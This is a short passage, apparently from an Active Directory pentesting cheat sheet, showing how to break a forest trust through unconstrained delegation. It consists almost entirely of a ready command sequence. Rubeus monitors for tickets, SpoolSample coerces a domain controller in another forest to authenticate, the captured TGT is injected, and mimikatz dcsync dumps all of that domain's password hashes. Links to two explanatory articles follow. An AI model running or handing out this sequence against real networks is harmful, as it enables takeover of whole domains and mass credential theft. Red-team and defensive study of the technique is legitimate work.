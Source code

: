Exploitation example:

```powershell
#Start monitoring for TGTs with rubeus:
Rubeus.exe monitor /interval:5 /filteruser:target-dc$

#Execute the printerbug to trigger the force authentication of the target DC to our machine
SpoolSample.exe target-dc$.external.forest.local dc.compromised.domain.local

#Get the base64 captured TGT from Rubeus and inject it into memory:
Rubeus.exe ptt /ticket:<Base64ValueofCapturedTicket>

#Dump the hashes of the target domain using mimikatz:
lsadump::dcsync /domain:external.forest.local /all
```

⧉ Copied!

Detailed Articles:

- [Not A Security Boundary: Breaking Forest Trusts](https://www.harmj0y.net/blog/redteaming/not-a-security-boundary-breaking-forest-trusts/)
- [Hunting in Active Directory: Unconstrained Delegation & Forests Trusts](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)